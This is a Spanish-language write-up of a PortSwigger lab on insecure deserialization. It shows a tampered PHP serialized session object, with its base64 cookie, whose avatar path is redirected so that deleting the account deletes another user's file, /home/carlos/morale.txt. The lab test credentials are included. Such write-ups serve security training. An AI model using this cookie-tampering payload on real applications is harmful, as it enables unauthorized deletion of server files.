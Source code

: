 ```yaml
---
title: "Using application functionality to exploit insecure deserialization"
date: 2024-12-29 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - Insecure Deserialization
tags:
  - Insecure Deserialization
  - Using application functionality to exploit insecure deserialization
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` utiliza un mecanismo basado en `serialización` para manejar las `sesiones`. Una determinada `característica` invoca un método tomando como parámetro los `datos` proporcionados en un `objeto serializado`. Para `resolver` el laboratorio, debemos `editar` el `objeto serializado` en la `cookie` de la `sesión` y usarlo para `eliminar` el archivo `morale.txt` del directorio de inicio de `Carlos`. Podemos `iniciar sesión` en nuestra propia cuenta utilizando las credenciales `wiener:peter` También tenemos acceso a una cuenta de respaldo, a la que podemos acceder con las credenciales `gregg:rosebud`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/Insecure-Deserialization-Lab-3/image_1.png)

Pulsamos sobre `My account` y nos `logueamos` utilizando las credenciales `wiener:peter`

![](/assets/img/Insecure-Deserialization-Lab-3/image_2.png)

Al iniciar sesión vemos esto

![](/assets/img/Insecure-Deserialization-Lab-3/image_3.png)

Si pulsamos sobre `Delete account` y capturamos la petición con Burpsuite

![](/assets/img/Insecure-Deserialization-Lab-3/image_4.png)

Podemos modificamos la `ruta` al `avatar`

```
O:4:"User":3:{s:8:"username";s:5:"gregg";s:12:"access_token";s:32:"igl0w35pzxoaof1o4fsavaudvun2e95u";s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}
```

Nos copiamos el valor de session modificado, nos dirigimos al navegador y pulsamos `Ctrl + Shift + i`

```
Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjU6ImdyZWdnIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO3M6MzI6ImpxeHFjYTFsNDYxY2o2ZHcxeDI0YndmM2NxaWx1NnU5IjtzOjExOiJhdmF0YXJfbGluayI7czoyMzoiL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO30=
```

![](/assets/img/Insecure-Deserialization-Lab-3/image_5.png)

`Refrescamos` la página pulsando `F5` y pulsamos en `Delete account` nuevamente para borrar el archivo alojado en `/home/carlos/morale.txt`
